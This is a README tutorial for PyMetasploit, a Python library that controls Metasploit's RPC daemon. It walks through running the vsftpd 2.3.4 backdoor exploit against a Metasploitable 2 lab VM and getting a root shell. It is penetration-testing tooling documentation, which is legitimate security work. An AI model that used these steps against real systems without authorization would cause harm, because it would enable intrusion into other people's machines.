 PyMetasploit - a full-fledged msfrpc library for Python
-------------------------------------------------------

PyMetasploit is a full-fledged `msfrpc` library for Python. It is meant to interact with the msfrpcd daemon that comes
with the latest versions of Metasploit. It does NOT interact with the console-based scripts that Metasploit provides
such as msfconsole, msfvenom, etc. Therefore, before you can begin to use this library, you'll need to initialize
`msfrpcd` and optionally (highly recommended) PostgreSQL.

# Requirements

Before we begin, you'll need to install the following components:

* **Metasploit:** https://github.com/rapid7/metasploit-framework
* **PostgreSQL (Optional):** http://www.postgresql.org

Installing PostgreSQL is highly recommended as it will improve response times when querying `msfrpcd` (Metasploit RPC
daemon) for module information.

# Installation

To install pymetasploit, run `pip install git+https://github.com/rapid7/komand-pymetasploit.git`.

The Rapid7 fork of pymetasploit is not yet available on PyPI.

# Tutorial

## Starting `msfrpcd`

`msfrpcd` accepts the following arguments:

```bash
$ ./msfrpcd -h

   Usage: msfrpcd <options>

   OPTIONS:

       -P <opt>  Specify the password to access msfrpcd
       -S        Disable SSL on the RPC socket
       -U <opt>  Specify the username to access msfrpcd
       -a <opt>  Bind to this IP address
       -f        Run the daemon in the foreground
       -h        Help banner
       -n        Disable database
       -p <opt>  Bind to this port instead of 55553
       -u <opt>  URI for Web server
```

The only parameter that is required to launch `msfrpcd` is the `-P` (password) parameter. This specifies the password
that will be used to authenticate users to the daemon. As of this writing, `msfrpcd` only supports one username/password
combination. However, the same user can log into the daemon multiple times. Unless specified otherwise, the `msfrpcd`
daemon listens on port 55553 on all interfaces (`0.0.0.0:55553`).

For the purposes of this tutorial let's start the `msfrpcd` daemon with a minimal configuration:

```bash
$ ./msfrpcd -P mypassword -n -f -a 127.0.0.1
[*] MSGRPC starting on 0.0.0.0:55553 (SSL):Msg...
[*] MSGRPC ready at 2014-04-19 23:49:39 -0400.
```

The `-f` parameter tells `msfrpcd` to remain in the foreground and the `-n` parameter disables database support.
Finally, the `-a` parameter tells `msfrcpd` to listen for requests only on the local loopback interface (`127.0.0.1`).

## `MsfRpcClient` - Brief Overview

### Connecting to `msfrpcd`

Let's get started interacting with the Metasploit framework from python:

```python
>>> from metasploit.msfrpc import MsfRpcClient
>>> client = MsfRpcClient('mypassword')
```

The `MsfRpcClient` class provides the core functionality to navigate through the Metasploit framework. Let's take a
look at its underbelly:

```python
>>> [m for m in dir(client) if not m.startswith('_')]
['auth', 'authenticated', 'call', 'client', 'consoles', 'core', 'db', 'jobs', 'login', 'logout', 'modules', 'plugins',
'port', 'server', 'sessionid', 'sessions', 'ssl', 'uri']
>>>
```

Like the metasploit framework, `MsfRpcClient` is segmented into different management modules:

* **`auth`**: manages the authentication of clients for the `msfrpcd` daemon.
* **`consoles`**: manages interaction with consoles/shells created by Metasploit modules.
* **`core`**: manages the Metasploit framework core.
* **`db`**: manages the backend database connectivity for `msfrpcd`.
* **`modules`**: manages the interaction and configuration of Metasploit modules (i.e. exploits, auxiliaries, etc.)
* **`plugins`**: manages the plugins associated with the Metasploit core.
* **`sessions`**: manages the interaction with Metasploit meterpreter sessions.

### Running an Exploit

Just like the Metasploit console, you can retrieve a list of all the modules that are available. Let's take a look at
what exploits are currently loaded:

```python
>>> client.modules.exploits
['windows/wins/ms04_045_wins', 'windows/winrm/winrm_script_exec', 'windows/vpn/safenet_ike_11',
'windows/vnc/winvnc_http_get', 'windows/vnc/ultravnc_viewer_bof', 'windows/vnc/ultravnc_client', ...
'aix/rpc_ttdbserverd_realpath', 'aix/rpc_cmsd_opcode21']
>>>
```

We can also retrieve a list of `auxiliary`, `encoders`, `nops`, `payloads`, and `post` modules using the same syntax:

```python
>>> client.modules.auxiliary
...
>>> client.modules.encoders
...
>>> client.modules.nops
...
>>> client.modules.payloads
...
>>> client.modules.post
...
```

Now let's interact with one of the `exploit` modules:

```python
>>> exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
>>>
```

If all is well at this point, you will be able to query the module for various pieces of information such as author,
description, required run-time options, etc. Let's take a look:

```python
>>>  print exploit.description

          This module exploits a malicious backdoor that was added to the	VSFTPD download
          archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
          June 30th 2011 and July 1st 2011 according to the most recent information
          available. This backdoor was removed on July 3rd 2011.

>>> exploit.authors
['hdm <hdm@metasploit.com>', 'MC <mc@metasploit.com>']
>>> exploit.options
['TCP::send_delay', 'ConnectTimeout', 'SSLVersion', 'VERBOSE', 'SSLCipher', 'CPORT', 'SSLVerifyMode', 'SSL', 'WfsDelay',
'CHOST', 'ContextInformationFile', 'WORKSPACE', 'EnableContextEncoding', 'TCP::max_send_size', 'Proxies',
'DisablePayloadHandler', 'RPORT', 'RHOST']
>>> exploit.required # Required options
['ConnectTimeout', 'RPORT', 'RHOST']
```

That's all fine and dandy but you're probably really itching to pop a box with this library right now, amiright!? Let's
do it! Let's use a [Metasploitable 2](http://sourceforge.net/projects/metasploitable/) instance running on a VMWare
machine as our target. Luckily it's running our favorite version of vsFTPd - 2.3.4 - and we already have our exploit
module loaded in PyMetasploit. Our next step is to specify our target:

```python
>>> exploit['RHOST'] = '172.16.14.145' # IP of our target host
>>>
```

You can also specify or retrieve other options as well, as long as they're listed in `exploit.options`, using the same
method as shown above. For example, let's get and set the `VERBOSE` option:

```python
>>> exploit['VERBOSE']
False
>>> exploit['VERBOSE'] = True
>>> exploit['VERBOSE']
True
>>>
```

Awesome! So now we're ready to execute our exploit. All we need to do is select a payload:

```python
>>> exploit.payloads
['cmd/unix/interact']
>>>
```

At this point, this exploit only supports one payload (`cmd/unix/interact`). So let's pop a shell:

```python
>>> exploit.execute(payload='cmd/unix/interact')
{'job_id': 1, 'uuid': '3whbuevf'}
>>>
```

Excellent! It looks like our exploit ran successfully. How can we tell? The `job_id` key contains a number. If the
module failed to execute for any reason, `job_id` would be `None`. For long running modules, you may want to poll the
job list by checking `client.jobs.list`. Since this is a fairly quick exploit, the job list will most likely be empty
and if we managed to pop our box, we might see something nice in the sessions list:

```python
>>> client.sessions.list
{1: {'info': '', 'username': 'ndouba', 'session_port': 21, 'via_payload': 'payload/cmd/unix/interact',
'uuid': '5orqnnyv', 'tunnel_local': '172.16.14.1:58429', 'via_exploit': 'exploit/unix/ftp/vsftpd_234_backdoor',
'exploit_uuid': '3whbuevf', 'tunnel_peer': '172.16.14.145:6200', 'workspace': 'false', 'routes': '',
'target_host': '172.16.14.145', 'type': 'shell', 'session_host': '172.16.14.145', 'desc': 'Command shell'}}
>>>
```

Success! We managed to pop the box! `client.sessions.list` shows us that we have a live session with the same `uuid` as
the one we received when executing the module earlier (`exploit.execute()`). Let's interact with the shell:

```python
>>> shell = client.sessions.session(1)
>>> shell.write('whoami\n')
>>> print shell.read()
root
>>> # Happy dance!
```

This is just a sample of how powerful PyMetasploit can be. Use your powers wisely, Grasshopper, because with great power
comes great responsibility – unless you are a banker.

# Questions?

Email me at ndouba.at.gmail.com
